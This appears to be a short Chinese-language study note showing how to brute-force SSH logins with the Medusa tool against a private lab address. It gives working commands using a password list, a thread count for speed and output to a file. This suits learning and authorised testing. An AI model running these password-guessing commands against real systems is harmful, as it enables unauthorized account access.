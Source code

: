 # Medusa

![image-20201118104448392](75、暴力破解/image-20201118104448392.png)

```sh
medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131
```

![image-20201118120258165](75、暴力破解/image-20201118120258165.png)

```sh
medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131 -t 10
指定10个线程 ，加快速度


medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131 -O ssh.txt
输出到文件
```
